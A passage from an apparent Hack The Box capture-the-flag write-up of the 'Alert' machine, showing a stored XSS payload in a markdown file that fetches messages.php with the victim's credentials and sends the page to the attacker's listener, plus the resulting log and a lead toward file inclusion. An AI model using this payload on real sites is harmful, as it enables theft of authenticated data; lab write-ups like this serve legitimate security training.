 After decrypting the `ecnoded` response using `BurpSuite` we saw the `?page=message` endpoint from our `directory busting` approach earlier.

```c
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages%
```

```c
        <a href="index.php?page=messages%
```

As a logical next step we tried to read the `messages.php` through the same technique as before and send the information back to us.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/files]
└─$ cat test2.md 
<script>
fetch('http://alert.htb/messages.php', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/exfil?data=' + encodeURIComponent(data));
    });
</script>
```

We repeated each step after creating a second `.md` file and received a `callback` with the `content` of `messages.php`.

```c
10.10.14.86 - - [23/Nov/2024 22:07:30] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:07:30] "GET /exfil?data=%0A HTTP/1.1" 501 -
10.10.14.86 - - [23/Nov/2024 22:07:32] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:07:32] "GET /exfil?data=%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:07:40] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 22:07:40] "GET /exfil?data=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1" 501 -
```

After we `decoded` it we noticed that `messages.php` was capable of reading files from the `filesystem` which if we could abuse it, would lead us to `Local File Inclusion (LFI)`.
